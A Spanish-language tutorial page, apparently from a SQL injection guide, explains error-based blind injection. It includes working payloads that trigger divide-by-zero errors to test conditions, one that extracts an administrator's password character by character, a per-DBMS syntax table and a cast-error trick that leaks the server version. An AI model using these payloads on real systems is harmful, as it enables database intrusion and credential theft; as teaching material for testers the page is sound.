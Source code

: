 ```yaml
---
layout: default
title: 4.2 Basadas en error
permalink: /injection_types/blind/error_based_type
nav_order: 2
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas basadas en error

La detección se complica. La aplicación no se comporta de manera diferente agregando condiciones extra que se esperaría que puedan terminar en una consulta SQL. En esta situación, es posible **inducir a la aplicación a devolver respuestas condicionales activando errores SQL condicionalmente**, dependiendo de una condición inyectada. Esto implica modificar la consulta para que **cause un error en la base de datos** si la condición es verdadera, pero no si la condición es falsa (o al revés). Un error del DBMS no manejado por la aplicación causará alguna diferencia en la respuesta (como un mensaje de error), lo que permite inferir la veracidad de la condición inyectada.

Con el mismo ejemplo de consulta que en [4.1 Con respuestas condicionales](/test-page/injection_types/blind/conditional_type), se envían estos dos *payloads* de inyección: 

```  
...Tj4' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
...Tj4' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```  

Ambos usan una sentencia `CASE` para **probar una condición y devolver una expresión diferente** dependiendo de si la misma es verdadera. Con la primera entrada, el `CASE` evalúa a `'a'`, que no causa ningún error, pero en la segunda entrada, se evalúa la ecuación `1/0`, que causa un error (*Zero división error*). **Suponiendo que el error causa una diferencia** en la respuesta HTTP obtenida, podemos utilizar las diferencias de los códigos de respuesta HTTP para identificar si la condición inyectada es verdadera **y a partir de allí automatizar la inyección**.

Usando esta técnica se pueden extraer datos de la manera descrita anteriormente:

```  
...Tj4' AND (SELECT CASE WHEN 
    (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
    THEN 1/0 ELSE 'a' END FROM Users) = 'a
```  

Información básica sobre variantes de sintaxis para generar errores condicionales en distintos DBMS:

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

La sintaxis no siempre va a ser tan directa de aplicar y la interpretación de algunos paréntesis o condiciones de error pueden cambiar para un mismo DBMS en diferentes versiones.

## Hacer ver a la ciega

En una inyección ciega, extraer contenido por deducciones y errores es parecido a decirle al oído a la ciega cómo se ve el resultado. Pero mejor es hacerla ver.

Existen técnicas que permiten devolver **el resultado de la consulta en el propio error**. La más simple es **provocar errores de conversión o *cast*** que indiquen que el resultado parcial, ya procesado por el DBMS, no es convertible. Por ejemplo, la siguiente línea intenta convertir a numérico un *string* complejo que debería tener la versión del DBMS:

``` sql 
1=convert(int,@@version)--
```

Aplicado a una de las consultas de ejemplo anteriores:

```sql 
SELECT TrackingId FROM TrackedUsers WHERE 
    TrackingId = 'PeniarolONacionalTantoMeDa' AND 1=convert(int,@@version)--'
```

Puede generar el siguiente error como respuesta:

```
Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value 
"Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation 
Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)" to data type 
int. (severity 16 in D:\something\web\STD...\id.php on line...
```

Si esto sucede, no hay más ceguera. Es cuestión de extraer el resultado directamente como en una inyección clásica con datos visibles.